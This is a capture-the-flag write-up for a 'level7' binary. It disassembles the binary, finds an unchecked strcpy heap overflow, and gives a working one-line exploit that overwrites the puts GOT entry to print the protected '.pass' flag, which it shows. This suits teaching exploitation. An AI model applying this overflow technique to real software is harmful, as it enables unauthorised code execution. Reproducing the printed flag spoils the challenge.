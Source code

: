 level7
======

Dissassembly
------------

To dissassemble the executable we can use objdump.
```sh
EXECUTABLE=./level7

objdump -M intel -d "$EXECUTABLE"
```

Let's look at the main function:
```nasm
08048521 <main>:
 8048521:	55                   	push   ebp
 8048522:	89 e5                	mov    ebp,esp
 8048524:	83 e4 f0             	and    esp,0xfffffff0
 8048527:	83 ec 20             	sub    esp,0x20
... 
```

There are 4 calls to malloc. Each one has a size of 8 bytes.
I'll refer to them as block A, B, C and D.
```nasm
...
A:
 804852a:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 8048531:	e8 ba fe ff ff       	call   80483f0 <malloc@plt>
 8048536:	89 44 24 1c          	mov    DWORD PTR [esp+0x1c],eax
 804853a:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 804853e:	c7 00 01 00 00 00    	mov    DWORD PTR [eax],0x1
B:
 8048544:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 804854b:	e8 a0 fe ff ff       	call   80483f0 <malloc@plt>
 8048550:	89 c2                	mov    edx,eax
 8048552:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 8048556:	89 50 04             	mov    DWORD PTR [eax+0x4],edx
C:
 8048559:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 8048560:	e8 8b fe ff ff       	call   80483f0 <malloc@plt>
 8048565:	89 44 24 18          	mov    DWORD PTR [esp+0x18],eax
 8048569:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 804856d:	c7 00 02 00 00 00    	mov    DWORD PTR [eax],0x2
D:
 8048573:	c7 04 24 08 00 00 00 	mov    DWORD PTR [esp],0x8
 804857a:	e8 71 fe ff ff       	call   80483f0 <malloc@plt>
 804857f:	89 c2                	mov    edx,eax
 8048581:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 8048585:	89 50 04             	mov    DWORD PTR [eax+0x4],edx
...
```

The pointers to block A and C are stored at esp + 0x1c and esp + 0x18 respectively.
On the other hand, the pointers to block B and D are stored inside of block A and C respectively at an offset of 4.
```c
A:
[esp + 0x1c] = malloc(8);
[[esp + 0x1c]] = 1;

B:
[[esp + 0x1c] + 0x4] = malloc(8);

C:
[esp + 0x18] = malloc(8);
[[esp + 0x18]] = 2;

D:
[[esp + 0x18] + 0x4] = malloc(8);
```

Afterwards, the content of the strings at [[ebp+0xc] + 0x4] and [[ebp+0xc] + 0x8] is copied to block B and D respectively.
```nasm
...
 8048588:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 804858b:	83 c0 04             	add    eax,0x4
 804858e:	8b 00                	mov    eax,DWORD PTR [eax]
 8048590:	89 c2                	mov    edx,eax

 8048592:	8b 44 24 1c          	mov    eax,DWORD PTR [esp+0x1c]
 8048596:	8b 40 04             	mov    eax,DWORD PTR [eax+0x4]

 8048599:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 804859d:	89 04 24             	mov    DWORD PTR [esp],eax
 80485a0:	e8 3b fe ff ff       	call   80483e0 <strcpy@plt>

 80485a5:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 80485a8:	83 c0 08             	add    eax,0x8
 80485ab:	8b 00                	mov    eax,DWORD PTR [eax]
 80485ad:	89 c2                	mov    edx,eax

 80485af:	8b 44 24 18          	mov    eax,DWORD PTR [esp+0x18]
 80485b3:	8b 40 04             	mov    eax,DWORD PTR [eax+0x4]

 80485b6:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80485ba:	89 04 24             	mov    DWORD PTR [esp],eax
 80485bd:	e8 1e fe ff ff       	call   80483e0 <strcpy@plt>
...
```

[ebp+0xc] is the location of the execution arguments array, so [[ebp+0xc] + 0x4] and [[ebp+0xc] + 0x8] correspond to the 1st and 2nd arguments respectively.

In c, the procedure would look like this:
```c
void **A = malloc(8);
void *B = malloc(8);
void **C = malloc(8);
void *D = malloc(8);

A[0] = 1;
A[1] = B;

C[0] = 2;
C[1] = D;

strcpy(A[1], av[1]); // A[1] == B
strcpy(C[1], av[2]); // C[1] == D
```

Lastly, the file containing the flag is opened in read-only mode and loaded into a buffer at 0x8049960. There also is a call to puts, but it simply prints "~~".
```nasm
 80485c2:	ba e9 86 04 08       	mov    edx,0x80486e9				; "r"
 80485c7:	b8 eb 86 04 08       	mov    eax,0x80486eb				; "/home/user/level8/.pass"
 80485cc:	89 54 24 04          	mov    DWORD PTR [esp+0x4],edx
 80485d0:	89 04 24             	mov    DWORD PTR [esp],eax
 80485d3:	e8 58 fe ff ff       	call   8048430 <fopen@plt>
 80485d8:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 80485dc:	c7 44 24 04 44 00 00 	mov    DWORD PTR [esp+0x4],0x44
 80485e3:	00
 80485e4:	c7 04 24 60 99 04 08 	mov    DWORD PTR [esp],0x8049960
 80485eb:	e8 d0 fd ff ff       	call   80483c0 <fgets@plt>
 80485f0:	c7 04 24 03 87 04 08 	mov    DWORD PTR [esp],0x8048703	; "~~"
 80485f7:	e8 04 fe ff ff       	call   8048400 <puts@plt>
 80485fc:	b8 00 00 00 00       	mov    eax,0x0
 8048601:	c9                   	leave
 8048602:	c3                   	ret
```
Note: To find strings corresponding to each memory location, you can use readelf:
```sh
readelf --hex-dump=.rodata ./level7
```

There also is a function m that will print the buffer containing the flag, as well as the current time.
```nasm
080484f4 <m>:
 80484f4:	55						push   ebp
 80484f5:	89 e5					mov    ebp,esp
 80484f7:	83 ec 18				sub    esp,0x18
 80484fa:	c7 04 24 00 00 00 00	mov    DWORD PTR [esp],0x0
 8048501:	e8 ca fe ff ff			call   80483d0 <time@plt>
 8048506:	ba e0 86 04 08			mov    edx,0x80486e0
 804850b:	89 44 24 08				mov    DWORD PTR [esp+0x8],eax
 804850f:	c7 44 24 04 60 99 04	mov    DWORD PTR [esp+0x4],0x8049960
 8048516:	08
 8048517:	89 14 24				mov    DWORD PTR [esp],edx
 804851a:	e8 91 fe ff ff			call   80483b0 <printf@plt>
 804851f:	c9						leave
 8048520:	c3						ret
``` 

Exploitation
------------

We need to jump onto the m function after the fgets call.
Because the executable is dynamically linked and calls the puts stub after reading the flag, we could override the function pointer with the address of the m function.
```nasm
08048400 <puts@plt>:
 8048400:	ff 25 28 99 04 08		jmp    DWORD PTR ds:0x8049928
 8048406:	68 28 00 00 00			push   0x28
 804840b:	e9 90 ff ff ff			jmp    80483a0 <_init+0x34>
```

To do so we can exploit strcpy again, because no length checks are performed on the input strings.
```c
strcpy(B, av[1]);
strcpy(C[1], av[2]);
```
The memory layout looks like this:
|   A  |      |   B  |      |   C  |      |   D  |      |
|:----:|------|:----:|------|:----:|------|:----:|------|
| 0x00 | 0x08 | 0x10 | 0x18 | 0x20 | 0x28 | 0x30 | 0x38 |

On 32 bits systems with 4 byte size_t, the libc's minimal allocation size is 16 bytes and contains 4 bytes of overhead, and padding if necessary.
That means that we should have 8 bytes of space between our blocks.

If we copy the address of the puts function pointer into C[1], we can overwrite it with the content of the second argument.
To do so, we will need to supply a string long enough to reach C[1], starting at B.

```c
&C[1] - B = 0x24 - 0x10 = 0x14 = 20
```

Now, let's try to override the puts stub function pointer:
```sh
./level7 "$(printf %.0sA {1..20})"$'\x28\x99\x04\x08' $'\xf4\x84\x04\x08'
```

Bingo!
```sh
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1648054124
```
